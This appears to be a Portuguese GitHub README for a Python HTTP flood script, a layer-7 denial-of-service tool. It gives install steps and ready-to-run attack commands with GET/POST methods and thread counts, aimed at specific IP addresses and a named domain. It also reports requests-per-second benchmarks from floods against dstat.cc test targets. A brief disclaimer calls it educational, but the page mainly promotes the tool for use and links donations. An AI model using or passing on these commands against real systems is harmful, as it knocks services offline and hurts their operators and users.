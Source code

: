 # Python HTTP Flood

Este é um simples script de HTTP Flood desenvolvido em Python.

## Instalação
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Uso 
```sh
python main.py <alvo> <GET/POST> <threads>
Exemplo: python main.py http://51.159.30.249 POST 1500
```

**Nota: Este script deve ser usado apenas para fins educacionais. Não é recomendado ou ético usar este script em sites sem permissão.**

## Configuração da Máquina e Testes
O script foi executado em uma máquina virtual com as seguintes especificações:
- CPU: 1 núcleo
- RAM: 2GB
- Velocidade de Internet: Download: 378.87 Mbit/s, Upload: 48.47 Mbit/s (medido com speedtest-cli)

## Configuração de Testes
Os testes foram realizados em diferentes sites para avaliar o desempenho na camada 7 (L7 Non Protected e L7 Non Protected SSL).

### Testes na Prática com Método POST
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Comando: `python main.py http://142.171.195.145/HIT POST 500`
- Requisições por segundo:
  - Máxima: 1500
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Comando: `python main.py https://nodec.mediathektv.com POST 700`
- Requisições por segundo:
  - Máxima: 2800
  - Média: 1500

### Testes na Prática com Método GET
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Comando: `python main.py http://142.171.195.145/HIT GET 500`
- Requisições por segundo:
  - Máxima: 3000
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Comando: `python main.py https://nodec.mediathektv.com GET 700`
- Requisições por segundo:
  - Máxima: 2200
  - Média: 1500

## Autor
O criador desta ferramenta é [E43b](https://github.com/e43b/).

- **Discord:** [Servidor](https://discord.gg/CsBMMXBz7t)
- **Doação:** [Link para doação](https://oxapay.com/donate/40874860)
